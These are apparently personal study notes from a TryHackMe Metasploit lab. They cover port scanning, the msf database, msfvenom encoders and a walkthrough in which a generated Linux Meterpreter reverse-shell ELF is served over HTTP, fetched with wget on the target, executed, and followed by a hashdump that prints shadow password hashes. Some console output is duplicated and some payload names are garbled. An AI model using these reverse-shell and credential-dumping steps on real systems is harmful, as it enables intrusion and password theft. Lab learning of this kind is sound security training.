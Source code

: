 # Metasploit: Exploitation
---

## Scanning

```sh
msf6 > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/portscan/ftpbounce              .                normal  No     FTP Bounce Port Scanner
   1  auxiliary/scanner/natpmp/natpmp_portscan          .                normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/sap/sap_router_portscanner      .                normal  No     SAPRouter Port Scanner
   3  auxiliary/scanner/portscan/xmas                   .                normal  No     TCP "XMas" Port Scanner
   4  auxiliary/scanner/portscan/ack                    .                normal  No     TCP ACK Firewall Scanner
   5  auxiliary/scanner/portscan/tcp                    .                normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/syn                    .                normal  No     TCP SYN Port Scanner
   7  auxiliary/scanner/http/wordpress_pingback_access  .                normal  No     Wordpress Pingback Locator


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access


msf6 > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/portscan/ftpbounce              .                normal  No     FTP Bounce Port Scanner
   1  auxiliary/scanner/natpmp/natpmp_portscan          .                normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/sap/sap_router_portscanner      .                normal  No     SAPRouter Port Scanner
   3  auxiliary/scanner/portscan/xmas                   .                normal  No     TCP "XMas" Port Scanner
   4  auxiliary/scanner/portscan/ack                    .                normal  No     TCP ACK Firewall Scanner
   5  auxiliary/scanner/portscan/tcp                    .                normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/syn                    .                normal  No     TCP SYN Port Scanner
   7  auxiliary/scanner/http/wordpress_pingback_access  .                normal  No     Wordpress Pingback Locator


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access

```
- **CONCURRENCY:** Number of targets to be scanned simultaneously.
- **PORTS:** Port range to be scanned. Please note that `1-1000` here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from `1` to `10000`.
- **RHOSTS:** Target or target network to be scanned.
- **THREADS:** Number of threads that will be used simultaneously. More threads will result in faster scans.

- **The `scanner/discovery/udp_sweep` module will allow you to quickly identify services running over the UDP (User Datagram Protocol). As you can see below, this module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.**

## Metasploit database
```sh
$ systemctl start postgresql
$ sudo msfdb init 

msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
           
msf6 > workspace
* default
msf6 >



msf6 > workspace -a tryhackme
[*] Added workspace: tryhackme
[*] Workspace: tryhackme
msf5 > workspace
default
* tryhackme
msf6 >

```

### DB backend Commands
```sh
Database Backend Commands
=========================

Command           Description
-------           -----------
analyze           Analyze database information about a specific address or address range
db_connect        Connect to an existing data service
db_disconnect     Disconnect from the current data service
db_export         Export a file containing the contents of the database
db_import         Import a scan result file (filetype will be auto-detected)
db_nmap           Executes nmap and records the output automatically
db_rebuild_cache  Rebuilds the database-stored module cache (deprecated)
db_remove         Remove the saved data service entry
db_save           Save the current data service connection as the default to reconnect on startup
db_status         Show the current data service status
hosts             List all hosts in the database
loot              List all loot in the database
notes             List all notes in the database
services          List all services in the database
vulns             List all vulnerabilities in the database
workspace         Switch between database workspaces
```
```sh
msf6 > db_nmap -sV  10.10.60.116

msf6 > hosts

Hosts
=====

address       mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---  ----  -------  ---------  -----  -------  ----  --------
10.10.60.116             Unknown                    device

msf6 > services
Services
========

host          port  proto  name         state  info
----          ----  -----  ----         -----  ----
10.10.60.116  21    tcp    ftp          open   ProFTPD 1.3.5e
10.10.60.116  22    tcp    ssh          open   OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 Ubuntu Linux; protocol 2.0
10.10.60.116  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: ACME IT SUPPORT
10.10.60.116  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: ACME IT SUPPORT
10.10.60.116  8000  tcp    http         open   WebFS httpd 1.21

```

## msfvenom
- **`msfvenom -l payloads ` this will list the payloads you have**
- **`msfvenom --list formats` this will list the supported output format**

### Encoders

- **Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`.)**

- **`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.17.88.30 -f raw -e php/base64`** 
- **In the the payload we add `-f raw` to have the raw generated php code and we add `-e php/base64` to obfuscate the php code to base64**

### Handler
- **We use handler to listen to the connection**
- **For reversed tcp we need to listen the connection because it will callback form the target machine**
   - **We use `use exploit/multi/handler` in the msfconsole we add our payload by generating the payload from msfvenom or we can add the payload form metasploit both are same**

#### Gaining Access through handler
**Attacking Machine**
```sh
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.17.88.30 LPORT=1234 -f elf > rev_shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

$ python3 -m http.server 80

```
```sh
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > ls
[*] exec: ls

rev_shell.elf  task.txt
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set payload rev_shell.elf
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload php/reverse_p
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload php/reverse_php 
payload => php/reverse_php
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.88.30:1234 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
msf6 exploit(multi/handler) > set payload lverse_tcpmeterpreter/re 
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload lverse_tcpmeterpreter/re 
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.17.88.30:1234 
[*] Sending stage (1017704 bytes) to 10.10.198.128
```

**Target Machine**

```sh
root@ip-10-10-198-128:/# wget http://10.17.88.30:80/rev_shell.elf
--2024-08-15 21:02:57--  http://10.17.88.30/rev_shell.elf
Connecting to 10.17.88.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: ‘rev_shell.elf’

rev_shell.e   0%       0  --.-KB/s         rev_shell.e 100%     207  --.-KB/s    in 0s      

2024-08-15 21:02:57 (15.5 MB/s) - ‘rev_shell.elf’ saved [207/207]

root@ip-10-10-198-128:/# ls
bin             lost+found     snap
boot            media          srv
dev             mnt            sys
etc             opt            tmp
home            proc           usr
initrd.img      rev_shell.elf  var
initrd.img.old  root           vmlinuz
lib             run            vmlinuz.old
lib64           sbin
root@ip-10-10-198-128:/# chmod +x rev_shell.elf 
root@ip-10-10-198-128:/# ./rev_shell.elf 
root@ip-10-10-198-128:/# ./rev_shell.elf 

```
**Post Exploitation**
```sh
meterpreter > run post/linux/gather/hashdump

[+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:/bin/sh
[+] Unshadowed Password File: /home/bc-here/.msf4/loot/20240815171349_default_10.10.198.128_linux.hashes_111171.txt

```
